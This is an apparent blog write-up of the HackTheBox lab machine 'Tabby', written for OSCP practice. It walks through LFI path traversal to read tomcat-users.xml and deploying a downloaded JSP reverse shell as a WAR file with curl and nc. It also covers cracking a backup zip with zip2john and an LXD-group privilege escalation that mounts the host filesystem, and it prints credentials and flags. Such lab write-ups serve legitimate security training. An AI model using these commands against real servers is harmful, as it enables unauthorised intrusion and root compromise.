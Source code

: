 ```yaml
---
layout: post
title: HackTheBox - Tabby
date: 2021-03-04 20:00:59 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, gobuster, dirb, LFI, tomcat, reverse-shell, John The Ripper, zip2john, LXD group privesc, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/tabby/Tabby.png
---
```


## Foothold

### `nmap` scan

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Tabby-full-port-scan.txt 10.10.10.194
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp  open     http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
20688/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

### Apache/2.4.41 (port 80)

The main page of port 80 reveals a domain name `megahosting.htb` (that we can immediately add to our `/etc/hosts` file):

![](/assets/img/htb/machines/linux/easy/tabby/80.png)

Second thing we can notice is that **data breach** statement that redirects to <http://megahosting.htb/news.php?file=statement>.

![](/assets/img/htb/machines/linux/easy/tabby/data-breach-link.png)

![](/assets/img/htb/machines/linux/easy/tabby/data-breach.png)

Due to the `.php?file=statement`, I wanted to try for LFI and it works: 

<http://megahosting.htb/news.php?file=../../../../../../../../../../../>

![](/assets/img/htb/machines/linux/easy/tabby/LFI.png)

The presence of `lxd`, `tomcat`, and `mysql` in `/etc/passwd` may be useful later. Let's check port 8080. 

### Tomcat9 (port 8080)

**Tomcat 9** seems to be used. Plus, we can read that users are defined in `/etc/tomcat9/tomcat-users.xml`: 

![](/assets/img/htb/machines/linux/easy/tabby/tomcat9.png)

Via `gobuster` and `dirb`, we see that there some "hidden" folders like `/manager`. Accessing this page requires credentials: 

![](/assets/img/htb/machines/linux/easy/tabby/gobuster-8080.png)
![](/assets/img/htb/machines/linux/easy/tabby/auth.png)
![](/assets/img/htb/machines/linux/easy/tabby/8080-manager.png)

At this point, we can say that we want to take avantage of the LFI we found to retrieve `tomcat-users.xml`.

After trying several path and looking for tomcat's installation and configuration directories, I came across with this successful one <http://megahosting.htb/news.php?file=../../../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml> 

![](/assets/img/htb/machines/linux/easy/tabby/tomcat-install-dir.png)
![](/assets/img/htb/machines/linux/easy/tabby/askubuntu.png)
![](/assets/img/htb/machines/linux/easy/tabby/creds.png)

The user is `tomcat` and his password is `$3cureP4s5w0rd123!`.

Surprisingly, we got an "access denied" response on `manager` when we log in:

![](/assets/img/htb/machines/linux/easy/tabby/acces_denied.png)

### Exploiting Tomcat to gain a reverse shell

Reading at [hacktricks - pentesting web (tomcat)](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat), I understood that by deploying a malicious WAR file via tomcat, I can run malicious code.

> **WAR** files are just zip files.

I looked for **jsp**(JavaServer Pages) **reverse shell** and I used the first one: 

<https://gist.github.com/halozheng/bf0eaa60c5f166dbc848>

{% highlight bash %}
$ wget https://gist.githubusercontent.com/halozheng/bf0eaa60c5f166dbc848/raw/a8a53f3275c378897b24dd04e385465d0bee06b6/shell.jsp
# Edit shell.jsp with HTB IP and listener port
$ zip monshell.war shell.jsp
$ curl --upload-file monshell.war -u "tomcat:\$3cureP4s5w0rd123!" "http://10.10.10.194:8080/manager/text/deploy?path=/monshell"
OK - Deployed application at context path [/monshell]
# Run a listener
$ nc -lnvp 1234
...
{% endhighlight %}

Visiting <http://10.10.10.194:8080/monshell/shell.jsp> and we have a reverse shell as user `tomcat`:

![](/assets/img/htb/machines/linux/easy/tabby/reverse_shell.png)

___

## User: `ash`

Now if we remember the `/etc/passwd` file we saw earlier, or if we just take a look at `/etc/home`, we see there is a user called `ash`.

I wanted to list all files that belongs to him and I found an interesting zip file:

{% highlight bash %}
$ find / -user ash 2>/dev/null
/var/www/html/files
/var/www/html/files/16162020_backup.zip
{% endhighlight %}

To get it on my own machine I printed the base64 of the file's content then I pasted it in a new file:

{% highlight bash %}
# On victim's machine
$ base64 16162020_backup.zip
...
# On my machine
$ cat > file.b64
... 
$ base64 -d file.b64 > 16162020_backup.zip
$ file 16162020_backup.zip 
16162020_backup.zip: Zip archive data, at least v1.0 to extract
{% endhighlight %}

### Cracking zip with john

Do not forget `zip2john`:

{% highlight bash %}
$ zip2john 16162020_backup.zip > 16162020_backup.john
{% endhighlight %}

![](/assets/img/htb/machines/linux/easy/tabby/john.png)

And we retrieved the following password: `admin@it`.

{% highlight bash %}
tomcat@tabby:~$ su ash
Password: admin@it
ash@tabby:/opt/tomcat$ cd
ash@tabby:~$ cat user.txt 
662b777f8536a0dce33afdd15851778b
{% endhighlight %}

___

## Privesc via LXD Group (Road to oot)

Ash is part of `lxd` group:

![](/assets/img/htb/machines/linux/easy/tabby/lxd_group.png)

Following the steps of this [hacktricks article](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation), we can perform a privilege escalation:

1. On our machine:

{% highlight bash %}
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
cd
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
{% endhighlight %}

2. Transfer ` lxd.tar.xz` and `rootfs.squashfs` on victim's machine. Then run `lxd init` and these commands:

{% highlight bash %}
$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
$ lxc image list #You can see your new imported image
$ lxc init alpine privesc -c security.privileged=true
$ lxc list #List containers
$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
$ lxc start privesc
$ lxc exec privesc /bin/sh
~# cd /mnt/root #Here is where the filesystem is mounted
{% endhighlight %}

![](/assets/img/htb/machines/linux/easy/tabby/lxd_privesc.png)

Flag:

{% highlight bash %}
$ cat root.txt 
26571b9decff2a772d66c476d47d4875
{% endhighlight %}

___

## Useful links

- <https://askubuntu.com/questions/135824/what-is-the-tomcat-installation-directory>
- <https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat>
- <https://gist.github.com/halozheng/bf0eaa60c5f166dbc848>
- <https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation>